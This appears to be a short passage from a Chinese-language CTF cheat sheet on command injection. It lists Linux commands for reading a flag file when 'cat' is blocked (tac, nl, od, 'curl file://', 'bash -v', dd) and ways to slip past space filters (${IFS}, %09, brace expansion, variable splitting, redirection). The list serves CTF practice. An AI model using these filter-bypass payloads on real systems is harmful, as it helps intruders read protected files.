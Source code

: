 ```
	more:一页一页的显示档案内容
	
	less:与 more 类似
	
	head:查看头几行
	
	tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
	
	tail:查看尾几行
	
	nl：显示的时候，顺便输出行号
	
	od:以二进制的方式读取档案内容
	
	vi:一种编辑器，这个也可以查看
	
	vim:一种编辑器，这个也可以查看
	
	sort:可以查看
	
	uniq:可以查看
	
	file -f:报错出具体内容
	
	sh /flag 2>%261 //报错出文件内容
	
	curl file:///root/f/flag
	
	strings flag
	
	uniq -c flag
	
	bash -v flag
	
	rev flag

	dd if=/flag bs=1M
```

3、过滤空格

```
	%09（url传递）(cat%09flag.php)

	cat${IFS}flag
	$IFS$9

	a=fl;b=ag;cat$IFS$a$b

	{cat,flag}

	重定向字符 <,<>
	cat<flag
	cat<>flag

```
